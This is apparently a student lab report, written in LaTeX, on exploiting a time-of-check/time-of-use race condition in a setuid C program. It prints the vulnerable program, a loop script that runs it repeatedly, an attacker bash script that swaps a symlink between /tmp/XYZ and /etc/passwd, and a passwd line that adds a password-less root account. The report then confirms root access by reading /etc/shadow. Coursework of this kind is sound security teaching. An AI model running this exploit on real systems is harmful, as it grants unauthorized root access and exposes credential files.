\documentclass[10pt]{article}
\usepackage{graphicx}
\usepackage{float}

\begin{document}
\title{Go Speed Racer()}
\author{Paul D. Camarata}
\date{22 August 2018}

\maketitle
\pagebreak
\begin{abstract}
"People who think they know everything are a great annoyance to those of us who do."
-Isaac Asimov.
\end{abstract}

\section{Introduction}
The purpose of this exploitation project was to gain a better understanding of how a race condition can be used to manipulate something.  Following a guide, I am able to create a vulnerable program using C, which will then be exploited for the purpose of privilege escalation.  All of the work performed on this project is available on github, https://github.com/paulcamarata/CYBR-570.

\section{Part I: Before Coding}
A vulnerable program has been provided for us.  However, the mechanism that this program uses has been fixed in most operating systems.  Since this is the case, we will need to do a something to the operating system prior to execution to get the exploit to work.  

\begin{figure}[H]
\centering

\includegraphics[scale=0.5]{./images/ss01.png}
\caption{OS Tweak}
\label{fig:Code}
\end{figure}

\section{The Code}
The program we are execution is very simple.  The concept is to point to a file, check if we have permission to access the file, and then append a small amount of information to that file.  

\begin{verbatim}
#include <stdio.h>
#include<unistd.h>
int main() {
    char * fn = "/tmp/XYZ";
    char buffer[60];
    FILE *fp;

    /* get user input */
    scanf("%50s", buffer );
    if(!access(fn, W_OK)) {
        fp = fopen(fn, "a+");
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    }

    else printf("No permission \n");
}
\end{verbatim}

Now that we have our program, there is one more modification we need to make this behave the way we want.  We need to set the sticky bit for the program.

\begin{figure}[H]
\centering

\includegraphics[scale=0.5]{./images/ss02.png}
\caption{File Tweak}
\label{fig:Code}
\end{figure}

\section{Explanation}
While going through this program, we notice that there is a known issue with the 'access' command.  The concept is that there is a delay between 'access' and 'fopen' that a malicious party can act on.  By using file linking, we are able to change the file being referenced to a file that we do not have access.  The goal here to continuously execute the program we have already created, and get race it to this gap in commands using another task.

\section{Exploitation}
\subsection{Vulnerable Script}
This section is exactly what was given to us.  It is a bash script that creates a loop to check if we manipulated our intended file.  If we have not, then keep trying.  If we have, then break the loop and proceed to verify the change has been made.

\begin{verbatim}
#!/bin/bash
CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
./vulp < passwd_input
new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"
\end{verbatim}

\subsection{Attacking Script}
For the attacking script, I veered away from the provided example a bit.  The book was using a C program to create the file links.  Rather than rely on a program that needs to be compiled on a target machine, I used a pure bash technique.

\begin{verbatim}
#!/bin/bash

# Setup
file="/tmp/worthlessFile"
touch $file

while true; do
	ln -sf /tmp/worthlessFile /tmp/XYZ
	sleep .001 
	ln -sf /etc/passwd /tmp/XYZ
	sleep .001
done

# Cleanup
rm -f $file
\end{verbatim}

The goal here is to try and force the program to jump to the '/etc/passwd' file.  This file contains all of the users currently on the operating system.

\subsection{Content Injection}

The last step is to decide what content to inject.  Here we are using a known string that will allow us to create a user called 'test' that is the root user with no password.

\begin{verbatim}
test:U6aMy0wojraho:0:0:test:/root:/bin/bash
\end{verbatim}


\section{Part III: Results}
We run the two shell scripts:

\begin{figure}[H]
\centering

\includegraphics[scale=0.5]{./images/ss05.png}
\caption{vulnerable.sh}
\label{fig:Code}
\end{figure}

\begin{figure}[H]
\centering

\includegraphics[scale=0.5]{./images/ss04.png}
\caption{attacker.sh}
\label{fig:Code}
\end{figure}

And after a period of time, our race condition comes to completion.

\begin{figure}[H]
\centering

\includegraphics[scale=0.5]{./images/ss03.png}
\caption{completion}
\label{fig:Code}
\end{figure}

The only thing left to do is to verify that our new root account exists with no password.

\begin{figure}[H]
\centering

\includegraphics[scale=0.5]{./images/ss06.png}
\caption{File Tweak}
\label{fig:Code}
\end{figure}

Here we authenticate to the user 'test' and press enter when presented with a password prompt.  We are granted access and we proceed to check the /etc/shadow file.  A file that by default only root is able to read.  Since we receive no permission failure, it is safe to conclude that the race condition has run successfully and our privilege elevation vulnerability has fully executed.

\section{Conclusion}
In conclusion, I think this was an interesting exploitation project.  I would definitely be interested in a project that dives a bit deeper.  I felt that with the examples presented in class it was impossible to not be able to complete the steps needed to be successful here.  I really, really liked the content thus far for this class, but I feel like it has just flat out been too easy.

\pagebreak
\begin{thebibliography}{9}
\bibitem{OSConcepts}
Abraham Silberschatz, Peter Baer Galvin, Greg Gagne
\textit{Operating System Concepts}
John Wiley \& Sons Inc. 2018
\end{thebibliography}
\end{document}